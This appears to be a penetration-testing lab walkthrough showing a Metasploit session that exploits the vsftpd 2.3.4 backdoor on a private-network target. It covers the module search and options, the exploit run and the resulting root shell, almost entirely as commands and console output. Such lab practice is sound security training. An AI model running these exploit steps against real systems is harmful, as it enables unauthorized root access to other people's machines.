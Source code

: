 ## 21/tcp   open  ftp         vsftpd 2.3.4
## vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)

msf6 > search vsftpd 2.3.4 

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.161.131
rhosts => 192.168.161.131
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
######################################
[*] 192.168.161.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.161.131:21 - USER: 331 Please specify the password.
[+] 192.168.161.131:21 - Backdoor service has been spawned, handling...
[+] 192.168.161.131:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.161.128:34389 -> 192.168.161.131:6200) at 2025-02-04 14:25:00 +0530

##########################################
id
uid=0(root) gid=0(root)


